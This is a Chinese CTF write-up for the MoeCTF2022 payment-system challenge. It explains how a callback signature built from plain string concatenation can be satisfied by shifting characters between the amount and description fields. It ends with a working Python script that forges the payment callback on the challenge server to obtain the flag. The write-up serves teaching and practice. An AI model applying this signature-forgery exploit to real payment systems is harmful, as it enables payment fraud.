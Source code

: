```yaml
---
date: 2022-10-31
title: MoeCTF2022 支付系统 Writeup
author: Frank
---
```


## 背景

这是一道来历挺有意思的题：虽然碍于某些规定不能细说，但是确实是现实生活中出现的case简化而成的题目。
本来希望做成有多层身份（用户、商户、平台、渠道等），多级目标的题目，但多次简化后发现问题根源单一且难度不大，遂出成了仅有单个身份（用户）以及单个目标（买flag）的MoeCTF的题目。

总的来说是一道考验脑经急转弯的题目，但是对于新生而言，作为一道500分的题目，我对新生的期待至少有以下几点：

* 掌握Python的基础语法
* 掌握Flask框架的基础用法
  * 如果能进一步了解orm的作用以及用法那就再好不过了，但要解出题目其实不需要
* 能在一周时间左右耐心阅读完这段对于编写过一段时间代码的同学并不长的代码
* 能通过代码准确判断出出题人的意图
* 能通过逻辑分析对可能的攻击点进行分层次的排查

## 思路

首先阅读代码，这是基本功。我们看到 `/pay` 接口可以为我们充值，并且了解到用户是通过 `session` 进行标识的。  
通过Flask框架的基础学习，不难了解到Flask的session在无法取得secret_key的情况下是无法篡改的，所以排除掉直接修改session中的余额这一思路。  
发现 `/callback` 接口可以接受参数而***改变一笔订单的状态***，并利用 `sign` 参数对其它参数的值进行校验。仔细观察校验方式，可以发现校验的信息为简单的字符串拼接。  
此时需要动脑：要绕过这一个校验无非有两种可能：

* 伪造任意数据，并生成签名 `sign`。要达成这一目标我们需要 `secret_key`，但由于 `secret_key` 为随机生成，且没有泄露途径，这一方案可以排除
* 伪造特定的数据，使伪造的数据与通过 `/pay` 接口产生的数据签名相同。

不难发现我们应当采用第二种方式：

在没有 `secret_key` 的情况下，思考如何构造两组签名相同的数据，在签名函数安全的前提下，不如思考如何构造两组数据，使得其在签名前的**数据本身**相同

对于字符串拼接，我们可以发现：

`aa+b == a+ab`

脑经急转弯结束。

在实际操作中，可能有同学卡在了找不到nonce的地方...我当时是寻思在订单的返回页面上只有那个二维码能是nonce了吧，以为大家想要找nonce很轻易就能猜到，在此道个歉。

## exploit

```python
from requests import session
import re
ses = session()
loc = ses.get('http://fake-pay.moectf.challenge.ctf.show/pay', params={'amount': 2000, 'desc': ''}, allow_redirects=False).headers['location']
detail = ses.get(f'http://fake-pay.moectf.challenge.ctf.show{loc}').text
h = re.findall(r'[0-9a-f]{64}', detail)[0]
u = re.findall(r'[0-9a-f]{8}-[0-9a-f\-]{27}', detail)[0]
print(ses.post('http://fake-pay.moectf.challenge.ctf.show/callback', data={
    'id': loc.split('=')[1],
    'user': u, 'hash': h,
    'amount': 200, 'status': 0,
    'desc': '2',
}).text)
print(ses.get('http://fake-pay.moectf.challenge.ctf.show/flag').text)
```
